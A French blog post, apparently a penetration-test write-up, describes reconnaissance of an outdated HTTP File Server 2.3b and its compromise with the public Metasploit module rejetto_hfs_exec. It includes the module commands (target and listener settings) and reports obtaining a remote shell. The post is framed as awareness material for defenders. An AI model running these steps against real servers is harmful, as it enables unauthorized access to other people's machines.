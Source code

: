 ```yaml
---
layout: post
title:  "Test d'intrusion sur un HTTP File Server"
date:   2021-11-01
last-update: 
categories: securite
tags: http pentesting hfs
image: /assets/article/pentest/hfs/hfs.PNG
description: cet article présente un test d'intrusion sur une ancienne version de HTTP File Server afin de sensibiliser le lecteur aux différentes vulnérabilités possibles pour qu'il s'en prémunisse.
---
```




**HTTP File Server** abrégé HFS permet d'envoyer et de recevoir des fichiers en utilisant le protocole HTTP.
Le 31 octobre 2021, la dernière version était 2.3m.

Avec une ancienne version, la 2.3 b, il était possible d'obtenir un shell sur la machine avec metasploit.



## Reconnaissance

Lors d'une 1ère phase de reconnaissance, en lançant un scan avec Nessus, celui-ci a trouvé qu'un serveur HTTP HFS était installé à l'adresse IP <IP server> avec le port 80.

Petite remarques : cette hôte n'était pas détecté en lançant le scan nmap suivant : `sudo nmap -O <IP server>

![hfs-recon]({{site.url_complet}}/assets/article/pentest/hfs/hfs-recon.PNG)



On peut vérifier la présence du serveur en se connectant avec son navigateur. On arrive alors sur la page principale d'HFS.

On peut voir en bas que la version est 2.3. A ce stade, il n'est pas encore possible d'être sûr à 100% que cette version est vulnérable

![hfs]({{site.url_complet}}/assets/article/pentest/hfs/hfs.PNG)

## Exploit

En faisant une recherche avec google, un module metasploit efficace contre la version 2.3 b est disponible

Documentation : [www.rejetto.com/hfs/](https://www.rejetto.com/hfs/)

Il suffit alors de lancer metasploit, d'effectuer la configuration des hôtes et de lancer l'exploit

```bash
use use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <IP server>  #Target
set LHOST <IP localhost> #Local host ip
```

Bingo, la machine était bien vulnérable à l'exploit. On obtient par conséquent un shell sur la machine permettant de lire les fichiers s'y trouvant



![meterpreter-result]({{site.url_complet}}/assets/article/pentest/hfs/meterpreter-result.PNG)

## Source :

- Documentation metasploit : [www.rapid7.com - rejetto_hfs_exec/](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)
- Site officiel de l'éditeur : [www.rejetto.com/hfs/](https://www.rejetto.com/hfs/)
